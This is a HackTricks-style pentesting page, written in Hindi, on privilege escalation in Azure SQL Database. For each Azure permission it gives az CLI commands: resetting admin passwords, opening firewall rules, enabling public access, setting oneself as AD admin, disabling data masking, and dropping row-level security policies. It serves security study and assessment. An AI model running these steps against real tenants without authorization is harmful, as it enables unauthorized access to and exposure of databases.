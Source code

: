 # Az - SQL Database Privesc

{{#include ../../../banners/hacktricks-training.md}}

## SQL Database Privesc

SQL Database के बारे में अधिक जानकारी के लिए देखें:

{{#ref}}
../az-services/az-sql.md
{{#endref}}

### `Microsoft.Sql/servers/read` && `Microsoft.Sql/servers/write`

इन अनुमतियों के साथ, एक उपयोगकर्ता Azure SQL सर्वरों को अपडेट या बनाकर विशेषाधिकार वृद्धि कर सकता है और महत्वपूर्ण कॉन्फ़िगरेशन को संशोधित कर सकता है, जिसमें प्रशासनिक क्रेडेंशियल शामिल हैं। यह अनुमति उपयोगकर्ता को सर्वर गुणों को अपडेट करने की अनुमति देती है, जिसमें SQL सर्वर प्रशासनिक पासवर्ड शामिल है, जिससे अनधिकृत पहुंच या सर्वर पर नियंत्रण प्राप्त करना संभव होता है। वे नए सर्वर भी बना सकते हैं, जो संभावित रूप से दुर्भावनापूर्ण उद्देश्यों के लिए छायादार बुनियादी ढाँचा पेश कर सकते हैं। यह विशेष रूप से महत्वपूर्ण हो जाता है जब "Microsoft Entra Authentication Only" बंद होता है, क्योंकि वे SQL-आधारित प्रमाणीकरण का लाभ उठाकर बिना किसी प्रतिबंध के पहुंच प्राप्त कर सकते हैं।
```bash
# Change the server password
az sql server update \
--name <server_name> \
--resource-group <resource_group_name> \
--admin-password <new_password>

# Create a new server
az sql server create \
--name <new_server_name> \
--resource-group <resource_group_name> \
--location <location> \
--admin-user <admin_username> \
--admin-password <admin_passwor d>
```
इसके अलावा, यदि आप किसी गैर-निजी एंडपॉइंट से एक्सेस करना चाहते हैं तो सार्वजनिक एक्सेस सक्षम होना आवश्यक है, इसे सक्षम करने के लिए:
```bash
az sql server update \
--name <server-name> \
--resource-group <resource-group> \
--enable-public-network true
```
इसके अलावा, अनुमतियों के साथ आप असाइन पहचान सक्षम कर सकते हैं, जो सर्वर से जुड़े प्रबंधित पहचान के साथ कार्य करता है। उदाहरण के लिए, यहाँ एक प्रबंधित पहचान है जो Azure Storage तक पहुँच सकती है:
```bash
az sql server update \
--name <server-name> \
--resource-group <resource-group> \
--assign_identity
```

```sql 
CREATE DATABASE SCOPED CREDENTIAL [ManagedIdentityCredential]
WITH IDENTITY = 'Managed Identity';
GO


CREATE EXTERNAL DATA SOURCE ManagedIdentity
WITH (
TYPE = BLOB_STORAGE,
LOCATION = 'https://<storage-account>.blob.core.windows.net/<container>',
CREDENTIAL = ManagedIdentityCredential
);
GO

SELECT *
FROM OPENROWSET(
BULK 'message.txt',
DATA_SOURCE = 'ManagedIdentity',
SINGLE_CLOB
) AS DataFile;
GO
```
### `Microsoft.Sql/servers/firewallRules/write`

एक हमलावर Azure SQL सर्वरों पर फ़ायरवॉल नियमों में हेरफेर कर सकता है ताकि अनधिकृत पहुँच की अनुमति मिल सके। इसका उपयोग सर्वर को विशिष्ट IP पते या पूरे IP रेंज, जिसमें सार्वजनिक IP शामिल हैं, के लिए खोलने के लिए किया जा सकता है, जिससे दुर्भावनापूर्ण अभिनेताओं के लिए पहुँच सक्षम होती है। यह पोस्ट-एक्सप्लॉइटेशन गतिविधि मौजूदा नेटवर्क सुरक्षा नियंत्रणों को बायपास करने, स्थिरता स्थापित करने, या संवेदनशील संसाधनों को उजागर करके वातावरण के भीतर पार्श्व आंदोलन को सुविधाजनक बनाने के लिए उपयोग की जा सकती है।
```bash
# Create Firewall Rule
az sql server firewall-rule create \
--name <new-firewall-rule-name> \
--server <server-name> \
--resource-group <resource-group> \
--start-ip-address <start-ip-address> \
--end-ip-address <end-ip-address>

# Update Firewall Rule
az sql server firewall-rule update \
--name <firewall-rule-name> \
--server <server-name> \
--resource-group <resource-group> \
--start-ip-address <new-start-ip-address> \
--end-ip-address <new-end-ip-address>
```
अतिरिक्त रूप से, `Microsoft.Sql/servers/outboundFirewallRules/delete` अनुमति आपको एक फ़ायरवॉल नियम को हटाने की अनुमति देती है।  
नोट: सार्वजनिक पहुंच सक्षम होना आवश्यक है

### `Microsoft.Sql/servers/ipv6FirewallRules/write`

इस अनुमति के साथ, आप Azure SQL Server पर IPv6 फ़ायरवॉल नियम बना, संशोधित या हटा सकते हैं। यह एक हमलावर या अधिकृत उपयोगकर्ता को मौजूदा नेटवर्क सुरक्षा कॉन्फ़िगरेशन को बायपास करने और सर्वर तक अनधिकृत पहुंच प्राप्त करने में सक्षम बना सकता है। किसी भी IPv6 पते से ट्रैफ़िक की अनुमति देने वाला एक नियम जोड़कर, हमलावर सर्वर को बाहरी पहुंच के लिए खोल सकता है।
```bash
az sql server firewall-rule create \
--server <server_name> \
--resource-group <resource_group_name> \
--name <rule_name> \
--start-ip-address <start_ipv6_address> \
--end-ip-address <end_ipv6_address>
```
अतिरिक्त रूप से, `Microsoft.Sql/servers/ipv6FirewallRules/delete` अनुमति आपको एक फ़ायरवॉल नियम को हटाने की अनुमति देती है।  
नोट: सार्वजनिक पहुंच सक्षम होना आवश्यक है

### `Microsoft.Sql/servers/administrators/write` && `Microsoft.Sql/servers/administrators/read`

इन अनुमतियों के साथ आप Azure SQL Server वातावरण में SQL डेटाबेस तक पहुंचकर महत्वपूर्ण जानकारी प्राप्त कर सकते हैं। नीचे दिए गए कमांड का उपयोग करके, एक हमलावर या अधिकृत उपयोगकर्ता खुद को या किसी अन्य खाते को Azure AD प्रशासक के रूप में सेट कर सकता है। यदि "Microsoft Entra Authentication Only" सक्षम है, तो आप सर्वर और इसके उदाहरणों तक पहुंच सकते हैं। यहाँ एक SQL सर्वर के लिए Azure AD प्रशासक सेट करने का कमांड है:
```bash
az sql server ad-admin create \
--server <server_name> \
--resource-group <resource_group_name> \
--display-name <admin_display_name> \
--object-id <azure_subscribtion_id>
```
### `Microsoft.Sql/servers/azureADOnlyAuthentications/write` && `Microsoft.Sql/servers/azureADOnlyAuthentications/read`

इन अनुमतियों के साथ, आप Azure SQL Server पर "Microsoft Entra Authentication Only" को कॉन्फ़िगर और लागू कर सकते हैं, जो कुछ परिदृश्यों में विशेषाधिकार वृद्धि को सुविधाजनक बना सकता है। एक हमलावर या एक अधिकृत उपयोगकर्ता जिनके पास ये अनुमतियाँ हैं, Azure AD-केवल प्रमाणीकरण को सक्षम या अक्षम कर सकता है।
```bash
#Enable
az sql server azure-ad-only-auth enable \
--server <server_name> \
--resource-group <resource_group_name>

#Disable
az sql server azure-ad-only-auth disable \
--server <server_name> \
--resource-group <resource_group_name>
```
### Microsoft.Sql/servers/databases/dataMaskingPolicies/write
अपने SQL डेटाबेस पर डेटा मास्किंग नीतियों को संशोधित (या अक्षम) करें।
```bash
az rest --method put \
--uri "https://management.azure.com/subscriptions/<your-subscription-id>/resourceGroups/<your-resource-group>/providers/Microsoft.Sql/servers/<your-server>/databases/<your-database>/dataMaskingPolicies/Default?api-version=2021-11-01" \
--body '{
"properties": {
"dataMaskingState": "Disable"
}
}'
```
### Remove Row Level Security
यदि आप व्यवस्थापक के रूप में लॉगिन करते हैं, तो आप स्वयं और अन्य उपयोगकर्ताओं की नीतियों को हटा सकते हैं।
```sql
DROP SECURITY POLICY [Name_of_policy];
```
{{#include ../../../banners/hacktricks-training.md}}
